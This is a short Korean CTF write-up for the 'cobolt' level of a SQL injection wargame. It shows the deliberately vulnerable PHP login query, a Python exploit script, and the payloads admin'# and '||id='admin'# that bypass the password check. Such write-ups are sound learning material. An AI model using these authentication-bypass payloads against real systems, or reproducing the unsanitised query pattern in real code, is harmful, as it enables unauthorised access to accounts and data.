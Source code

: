 ## COBOLT Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("cobolt");  
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/cobolt_b876ab5595253427d3bc34f1cd8f30db.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = "admin'#"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] COBOLT Clear!")
```
1번 문제는 id의 존재만 확인했지만 이번 문제는 id가 admin이어야 한다.  
따라서 id에 **'||id='admin'#** 을 넣어주었다.
``` php
select id from prob_cobolt where id=''||id='admin'#' and pw=''
```
쿼리문이 위와 같이 되고 id가 admin이 되어 문제가 풀린다.